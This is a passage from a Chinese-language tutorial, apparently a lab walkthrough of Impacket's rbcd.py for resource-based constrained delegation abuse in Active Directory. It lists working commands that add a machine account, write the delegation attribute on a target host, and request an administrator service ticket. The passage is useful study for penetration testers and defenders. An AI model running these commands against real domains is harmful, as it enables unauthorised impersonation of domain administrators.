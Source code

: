 此时通过该域用户创建一个机器账户加入域，就能将机器账户的 SID 写入目标机器的属性中。从而让机器账户可以在目标机器上通过委派模拟为任意用户的权限。

#### 常用命令

使用 test 用户，向`WIN-7$`的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性写入`test_computer$`的 SID

```bash
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

#### 常用选项

```bash
-action [{read,write,remove,flush}] 选择要对特殊属性进行的操作，可选读取、写入、删除、清空
-use-ldaps 使用 LDAPS 协议替换 LDAP
```

#### 利用实例

因为这个脚本利用比较复杂，所以增加了利用实例

比如，此时我在域中拥有一个普通用户 test:1qaz@WSX，通过 ACL 发现 test 对 WIN-7 具有`msDS-AllowedToActOnBehalfOfOtherIdentity`的写权限。

所以我先通过 test 添加一个 computer，test\_computer$:1qaz@WSX，命令如下：

```bash
py -3 addcomputer.py test.com/test:1qaz@WSX -computer-name test_computer$ -computer-pass 1qaz@WSX
```

[![](assets/1702372846-0e642ad4a35690686a61696cf333de68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123552-7a7de570-6bb1-1.png)

然后通过 test 用户和 rbcd.py 脚本给 WIN-7 设置属性。将 WIN-7$的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性指向 test\_computer$

```bash
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

[![](assets/1702372846-adc0a5773454d97b34dcaddb65b36080.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123559-7e55e22e-6bb1-1.png)

设置好属性后，使用 getST.py 获取到 administrator 的`cifs/WIN-7`的服务票据（ST）

```bash
py -3 .\getST.py -spn 'cifs/WIN-7' -impersonate administrator -dc-ip 192.168.40.140 'test/test_computer$:1qaz@WSX'
```
